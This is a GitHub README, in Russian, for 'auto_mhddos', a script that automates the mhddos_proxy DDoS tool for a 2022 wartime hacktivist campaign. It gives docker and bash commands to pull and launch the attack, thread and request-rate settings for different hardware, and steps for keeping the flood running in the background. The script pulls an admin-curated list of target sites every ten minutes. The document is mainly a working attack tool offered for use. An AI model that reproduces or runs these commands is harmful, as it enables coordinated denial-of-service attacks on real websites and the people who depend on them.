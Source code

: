 ### ⭕️ Оперативный штаб Жнецов
![photo_2022-03-17_23-39-03](https://user-images.githubusercontent.com/41838573/158963538-944690c4-83ea-4934-9a29-6eb8f1e61f3a.jpg)

### Представляем auto_mhddos - автоматизирующий скрипт [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

1. [Docker](https://github.com/Aruiem234/auto_mhddos#-docker)
2. [Bash(Linux-терминал)](https://github.com/Aruiem234/auto_mhddos#-bash)
3. [Kubernetes](https://github.com/Aruiem234/auto_mhddos/tree/main/helm-charts#mhddos-auto-helm-charts)

## 🪖 Docker

Установить [Docker](https://docs.docker.com/get-docker/) и запустить команду:  
  
* для ленивих(кол-во потоков будет 1000, запросов на прокси-сервер перед отправкой на цель: 200):
```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest
```



### Команды docker для разного железа: 

-- Слабое (2 ядра + 2-4 ГБ Озу).


```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 500 100  
```
  
-- Среднее (4 ядра + 4-8 Гб Озу) .Эти же параметры использутся по умолчанию, если запускать команду без аргументов.:   
  

```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 1000 200  
```
  
-- Быстрое(4+ ядер + 8+ Гб Озу):  

  
```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 2500 400  
```
  
Значение параметров на примере "500 100":  
  
500 - количество потоков (threads). Параметр -t в mhddos_proxy.  
  
100 - параметр --rpc в mhddos_proxy. (количество пакетов отправляемых на прокси-сервер, перед тем как он передаст их на сайт-цель)  

Пример успешной атаки без третьего параметра --debug(больше ничего выводится не будет):  
![Стандартный вывод](https://user-images.githubusercontent.com/74729549/159160084-3ffd870b-7d17-44c9-9108-3908212402ce.png)  


ТАКЖЕ МОЖНО ДОБАВИТЬ В КОНЕЦ ТРЕТИЙ ПАРАМЕТР --debug , чтоб выводилась информация о каждом отправленном пакете,  
например:  
```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 500 100 --debug  
```
пример вывода с параметром --debug:  
![Параметр --debug](https://user-images.githubusercontent.com/74729549/159160027-dcc51f91-3d0b-4dd7-abe8-b63edf136e1e.png)  
  
  
  
## 🪖 Bash(Linux-терминал)  


### 1. Установка.  
  
Выполняется для начальной установки ПО, и периодического обновления. Не обязательно использовать каждый раз.  


```shell
sudo su
apt install git -y
cd ~  
git clone https://github.com/Aruiem234/auto_mhddos.git  
cd ~/auto_mhddos  
bash setup.sh  

```
!!!Ждем пока выполнится!!!  


Скрипт автоматически устанавливает git, python3, pip, mhddos_proxy, MHDDoS и все зависимости.

### 2. Запуск.

Bash скрипт работает в Linux и WSL (Windows Subsystem for Linux). Работает автоматически, даже при закрытии терминала (если вы четко придерживаетесь инструкций)  

Не забудьте сначала выполнить пункт №1 (Установка).  


```shell
sudo su
cd ~/auto_mhddos
screen -S "runner" bash runner.sh 1000 200
```
Пример успешной атаки без третьего параметра --debug(больше ничего выводится не будет):  
![Стандартный вывод](https://user-images.githubusercontent.com/74729549/159160084-3ffd870b-7d17-44c9-9108-3908212402ce.png)  
  
  
ТАКЖЕ МОЖНО ДОБАВИТЬ В КОНЕЦ ТРЕТИЙ ПАРАМЕТР --debug , чтоб выводилась информация о каждом отправленном пакете,
например:  
```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 500 100 --debug  
```
пример вывода с параметром --debug:  
![Параметр --debug](https://user-images.githubusercontent.com/74729549/159160027-dcc51f91-3d0b-4dd7-abe8-b63edf136e1e.png)  

Для разных машин вместо параметров "1000 200" выбирайте следующее:  
-- Слабое (2 ядра + 2-4 ГБ Озу) - 500 100  
-- Среднее (4 ядра + 4-8 Гб Озу) - 1000 200  
-- Быстрое(4+ ядер + 8+ Гб Озу) - 2500 400  

Нажимаем Ctrl+A , затем Ctrl+D - И ВСЕ ГОТОВО - РАБОТАЕТ В ФОНЕ  
Если все успешно, то будет сообщение [detached from runner]  
  
Чтоб посмотреть, что там работает в фоне:  
```shell
sudo screen -ls
```
  
Чтоб перейти к процессу и узнать как у него дела (что он выводит)
щоб перейти до процесу та дізнатися як у нього справи (що він виводить), пишите:
```shell
screen -r runner
```
После этого, если захотите убить процес - нажимайте Ctrl+C  
Чтоб убить все его подпроцесы:  
```shell
sudo pkill -f runner.py
sudo pkill -f ./start.py
```
  
чтоб опять отключиться, и оставить его работать в фоне:  
Нажимаем Ctrl+A , затем Ctrl+D - И ВСЕ ГОТОВО - РАБОТАЕТ В ФОНЕ  


# ❕Описание

* Скрипт работает полностью автоматически - ВЫ МОЖЕТЕ ЗАКРЫВАТЬ ОКНО ТЕРМИНАЛА(кроме докера на Windows), но не выключать саму машину (а сервер и так работает 24/7)

* Работает с курируемым админами единым списком [сайтов-целей](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База целей обновляется скриптом каждые 10 мин.




Теоретически все это позволяет запустить скрипт на ПК/vps и всю остальную работу (обновление, перезапуск) он будет делать самостоятельно.

Рекомендуется использовать на Ubuntu 20.04. Вероятно будет работать на всех Ubuntu начиная с 18.04, а также всех производных Ubuntu и WSL2.



### 🇺🇦🇺🇦🇺🇦 СЛАВА УКРАЇНІ 🇺🇦🇺🇦🇺🇦
### ПТН ХЛО 🤡
